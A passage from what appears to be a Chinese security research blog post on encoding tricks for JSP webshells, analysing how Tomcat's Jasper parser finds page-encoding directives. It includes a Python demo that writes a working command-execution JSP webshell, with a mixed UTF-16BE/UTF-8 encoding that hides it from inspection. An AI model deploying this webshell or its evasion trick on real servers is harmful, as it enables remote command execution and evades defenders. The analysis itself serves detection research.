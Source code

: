 ```java
            }
            else {
                isDirective = jspReader.matches("jsp:directive.");
            }
            if (!isDirective) {
                continue;
            }

           xxxx
    }
```

因此从这里我们可以看出`<jsp:directive.`或`<%@`并没有要求在某个具体的位置，因此它可以在最前面，可以在中间甚至可以在最后面

这里我们可以验证下，这里我们把它藏在了一个变量当中

![img](https://y4tacker.github.io/2022/11/27/year/2022/11/%E6%B5%85%E8%B0%88JspWebshell%E4%B9%8B%E7%BC%96%E7%A0%81/10.png)

测试demo

```java
a0 = '''<%
    Process p = Runtime.getRuntime().exec(request.getParameter("y4tacker"));
    java.io.BufferedReader input = new java.io.BufferedReader(new java.io.InputStreamReader(p.getInputStream()));
    String line = "'''
a1 = '''<%@ page pageEncoding="UTF-16BE"%>'''
a2 = '''";
    while ((line = input.readLine()) != null) {
        out.write(line+"\\n");
    }
%>'''
with open("test2.jsp","wb") as f:
    f.write(a0.encode("utf-16be"))
    f.write(a1.encode("utf-8"))
    f.write(a2.encode("utf-16be"))
```

成功利用![img](https://y4tacker.github.io/2022/11/27/year/2022/11/%E6%B5%85%E8%B0%88JspWebshell%E4%B9%8B%E7%BC%96%E7%A0%81/11.png)

##### 三重编码

在上面的基础上我们还可以进一步利用，为什么呢？我们知道它在识别标签`<jsp:directive.`或`<%@`的过程中是调用了`jspReader.xxx`去实现的，而这个`jspReader`来源于前面的调用

```java
JspReader jspReader = null;
try {
  jspReader = new JspReader(ctxt, absFileName, sourceEnc, jar, err);
} catch (FileNotFoundException ex) {
  throw new JasperException(ex);
}
```
